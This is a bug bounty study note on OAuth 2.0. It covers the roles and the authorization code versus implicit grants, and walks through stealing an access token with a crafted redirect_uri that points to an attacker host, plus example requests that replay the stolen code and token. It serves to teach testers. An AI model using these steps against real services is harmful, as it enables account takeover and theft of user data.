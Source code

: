 ```yaml
---
description: OAuth - Authentication - Authorization - Bug Bounty - Credentials
---
```


# OAuth

{% embed url="https://www.youtube.com/watch?ab_channel=ByteByteGo&v=ZV5yTm4pT8g" %}

## <mark style="color:yellow;">What is OAuth 2.0</mark>&#x20;

Is giving a user a resource key from an application which enables the user to get acces to another applications specific data like user or work info. This all happens without using a password.&#x20;

OAuth entities

| Entity               | Description                                                           |
| -------------------- | --------------------------------------------------------------------- |
| Resource Owner       | Owns the resource like a photo (resource)                             |
| Client               | Service requesting access to photo (resource)                         |
| Authorization Server | Server authenticates resource owner and gives access tokens to client |
| Resource Server      | Server hosting the photo (resource)                                   |

Example:

{% stepper %}
{% step %}
### Login&#x20;

Joe uses login with zenlogin.com on zenprint.io, redirected to zenlogin.com
{% endstep %}

{% step %}
### Login zenlogin.com

Joe logs in and gives acces to his photos on zenprint.io. It receives a authorization grant to zenprint.io
{% endstep %}

{% step %}
### Authorization grant

zenprint.io presents authorization grant to zenlogin.com
{% endstep %}

{% step %}
### Authorization grant validation

zenlogin.com validates the authorization grant and issues an access token with acces to photos on zenprint.io
{% endstep %}

{% step %}
### Access token

zenprint.io presents access token to zenlogin.com API endpoint to access the photos.
{% endstep %}

{% step %}
### Validation token

zenlogin.com validates the token and provides the photo.&#x20;
{% endstep %}
{% endstepper %}

### <mark style="color:yellow;">Authorization Code Grant vs Implicit grant</mark>

Most common and secure is the authorization code grant which follows the flow shown above. The implicit code grant is shorter because the authorization code exchange is skipped. This results in exposing acces tokens in the browser. Client-side Javascript application might use this.&#x20;

### <mark style="color:yellow;">Stealing OAuth Access Token</mark>

If an attacker is in able to impersonate the victin by stealing their access token by manipulating the `redirect_uri` to the attackers system. This can happen if the `redirect_uri` is not properly verified.&#x20;

1. Create manipulated `redirect_uri`

```html
http://zenlogin.com/authorization/auth?response_type=code&client_id=0e8f12335b0bf225&redirect_uri=http://attacker.zen:57669//callback&state=something
```

2. Obtain cliend\_id by using own credentials.&#x20;
3. Deliver ilnk to victim
4. Receive authorization code and force an acces token

```
GET /client/callback?code=A0FCQUFBQm1BeHdCNEZEQVdxMFR0Tl9aSEg0SThQME9SU2s2V3Y3VE9teTM2V0JLcDRTM0Jwc0NBMG9Oc09vNGlqWjNZMDFVcGlsR3ZnWmdmRzJ3Q0wtdGtSbWNqXzBHY0o4RzBtMzlKN2h3WFlNcjltc2drNkNFUlAzcnJzUTd6SnVFbTJCWmZ6WDYtVm13V1pSRW5kMlBqcWRnQkVReUZRPT0&state=something HTTP/1.1
Host: zenlogin.com
Cookie: state=somevalue
```

5. Impersonate using token

```
GET /client/ HTTP/1.1
Host: zenprint.io
Cookie:  access_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imh0Yi1zdGRudCIsImlzcyI6Imh1YmdpdC5odGIiLCJleHAiOjE3MTE0ODQwMjAuODQ2M <snip>
```

Usually the `redirect_uri` is validated using a whitelist. Depening on the validation there might be potential bypasses.&#x20;

{% hint style="info" %}
If a state parameter is not present a CSRF might be possible.&#x20;
{% endhint %}

### <mark style="color:yellow;">XSS</mark>

In particular reflected XSS occurs. Reflected XSS occurs when a value from the request is reflected in the response.&#x20;

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Source: Geeksforgeeks</p></figcaption></figure>
